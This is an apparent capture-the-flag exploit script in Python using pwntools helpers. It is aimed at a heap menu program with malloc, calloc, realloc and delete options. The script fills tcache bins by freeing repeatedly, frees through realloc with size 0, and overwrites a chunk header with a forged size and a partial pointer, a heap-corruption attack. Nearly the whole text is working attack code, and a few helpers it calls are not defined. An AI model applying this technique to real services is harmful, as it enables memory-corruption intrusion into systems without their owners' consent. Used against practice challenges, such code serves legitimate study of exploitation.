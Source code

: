 ```python
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    #ru("5. exit\n")
    #rl()
    sla(": ", str(idx))

def malloc(size, content):
    choice(1)
    sla(": ", str(size))
    sa(": ", content)

def calloc(size, content):
    choice(2)
    sla(": ", str(size))
    sa(": ", content)

def realloc(size, content):
    choice(3)
    sla(": ", str(size))
    if(size > 0):
        sa(": ", content)
    else:
        ru(":")

def rm(idx):
    choice(4)
    sla(": ", idx)

def create(size):
    realloc(size, 'AA')
    for i in range(7):
        rm('r')
    realloc(0,'')

if __name__ == '__main__':
    create(0x30)
    create(0x20)
    create(0x40)
    create(0x60)
    create(0x50)
    realloc(0x70, 'AA')
    realloc(0,'')
    sla(": ", '1'*0x500)
    #realloc(0x90, p32(0xdd0760)[0:3])
    #realloc(0x28,p64(0))
    #realloc(0,'')
    realloc(0x150,'\x00'*0x128 + p64(0xe1)+p32(0x7758)[0:2])
    realloc(0,'')
```